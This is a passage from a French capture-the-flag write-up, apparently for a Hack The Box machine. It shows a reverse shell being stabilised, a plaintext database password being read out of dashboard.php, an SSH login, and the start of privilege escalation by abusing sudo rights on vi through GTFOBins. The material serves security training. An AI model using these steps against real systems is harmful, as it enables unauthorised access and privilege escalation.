 Nous avons obtenu un point d'appui. Nous allons rapidement rendre notre shell pleinement interactif :

- **Commande** : `python3 -c 'import pty;pty.spawn("/bin/bash")'`
- **Commande** : `CTRL+Z`
- **Commande** : `stty raw -echo`
- **Commande** : `fg`
- **Commande** : `export TERM=xterm`

Nous avons maintenant un shell pleinement interactif.

Le flag utilisateur peut être trouvé dans /var/lib/postgresql/ :

- **Commande** : `ls /var/lib/postgresql/`
- **Commande** : `cat /var/lib/postgresql/user.txt`

## Escalade de privilèges

Nous sommes l'utilisateur `postgres`, mais nous ne connaissons pas le mot de passe, ce qui signifie que nous ne pouvons pas vérifier nos privilèges sudo :

Nous allons essayer de trouver le mot de passe dans le dossier `/var/www/html`, puisque la machine utilise à la fois PHP et SQL, ce qui signifie qu'il devrait y avoir des identifiants en clair :

- **Commande** : `cd /var/www/html`
- **Commande** : `ls -la`
- **Commande** : `cat dashboard.php`

Dans `dashboard.php`, nous avons trouvé les informations suivantes :

```php
session_start();
  if($_SESSION['login'] !== "true") {
    header("Location: index.php");
    die();
  }
  try {
    $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
  }
```

Le mot de passe est : `P@s5w0rd!`

Notez que le shell peut mourir soudainement, au lieu de refaire l'exploit, nous utiliserons SSH pour nous connecter :

- **Commande** : `ssh postgres@10.129.95.174`

Nous allons taper `sudo -l` pour voir quels privilèges nous avons :

Nous avons les privilèges sudo pour éditer le fichier `pg_hba.conf` en utilisant vi en exécutant `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`. Nous allons aller sur GTFOBins pour voir si nous pouvons abuser de ce privilège : [GTFOBins - vi](https://gtfobins.github.io/gtfobins/vi/#sudo)

Nous allons exécuter la commande :

- **Commande** : `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`
